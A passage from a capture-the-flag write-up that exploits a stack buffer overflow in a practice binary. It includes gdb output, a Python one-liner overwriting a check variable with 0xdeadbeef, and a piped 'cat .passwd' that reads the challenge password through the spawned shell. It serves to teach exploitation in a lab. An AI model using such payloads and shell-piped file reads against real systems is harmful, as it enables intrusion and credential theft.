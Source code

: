 We then pipe this through gdb into our program and we get:
```gdb
gdb$ run < /tmp/overflow
Starting program: /challenge/app-systeme/ch13/ch13 < /tmp/overflow

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[check] 0x41414141

You are on the right way!
[Inferior 1 (process 27133) exited normally]
--------------------------------------------------------------------------[regs]
  EAX:Error while running hook_stop:
No registers.
gdb$
```

So, we overwrote the check variable with our buffer, as 0x41 is the hex code for ascii 'A' so `0x41414141` is equivalent to `AAAA`.   To get our shell spawned, we need to overwrite our variable with `0xdeadbeef`, so we just write a file containing `A*40` followed by the bytes for `0xdeadbeef`.  Code of the following form achieves this:

```python
import struct;  print "A"*40 + struct.pack("<L", 0xdeadbeef)
```
We run this and pipe it into our binary, and while we get a shell it isn't returned to us as interactive.
```bash
app-systeme-ch13@challenge02:~$ python -c 'import struct;  print "A"*40 + struct.pack("<L", 0xdeadbeef);' | ./ch13

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ 
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
Shell closed! Bye.
```
We'll just pipe in another command to cat the .passwd file and we're returned with our password which is read by the dash command.

```bash
app-systeme-ch13@challenge02:~$ (python -c 'import struct;  print "A"*40 + struct.pack("<L", 0xdeadbeef)';echo cat .passwd) | ./ch13

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ 
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
1w4ntm0r3pr0np1s
Shell closed! Bye.
```

So to summarise, using our understanding of the stack we've effectively corrupted and overwritten a stack variable via an overflow.

## The stack

